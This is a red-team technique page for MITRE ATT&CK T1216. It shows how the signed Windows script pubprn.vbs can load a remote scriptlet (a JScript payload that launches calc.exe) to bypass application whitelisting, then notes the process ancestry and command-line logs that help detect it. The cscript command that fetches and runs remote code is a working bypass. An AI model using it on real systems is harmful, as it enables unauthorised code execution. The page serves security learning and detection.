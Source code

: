 ```yaml
---
description: >-
  Signed Script Proxy Execution - bypass application whitelisting using
  pubprn.vbs
---
```


# T1216: pubprn.vbs Signed Script Code Execution

## Execution

Using pubprn.vbs, we will execute code to launch calc.exe. First of, the xml that will be executed by the script:

{% code-tabs %}
{% code-tabs-item title="http://192.168.2.71/tools/mitre/proxy-script/proxy.sct" %}
```markup
<?XML version="1.0"?>
<scriptlet>

<registration
    description="Bandit"
    progid="Bandit"
    version="1.00"
    classid="{AAAA1111-0000-0000-0000-0000FEEDACDC}"   
	>
</registration>

<script language="JScript">
<![CDATA[
		var r = new ActiveXObject("WScript.Shell").Run("calc.exe");	
]]>
</script>

</scriptlet>
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
cscript /b C:\Windows\System32\Printing_Admin_Scripts\en-US\pubprn.vbs 127.0.0.1 script:http://192.168.2.71/tools/mitre/proxy-script/proxy.sct
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## Observations

Calc.exe gets spawned by cscript.exe which immediately closes leaving the calc.exe process orphan:

![](../.gitbook/assets/pubprn-csript.png)

![](../.gitbook/assets/pubprn-ancestry.png)

Monitoring commandlines can be useful in detecting the script being abused:

![](../.gitbook/assets/pubprn-logs.png)

{% embed url="https://attack.mitre.org/wiki/Technique/T1216" %}

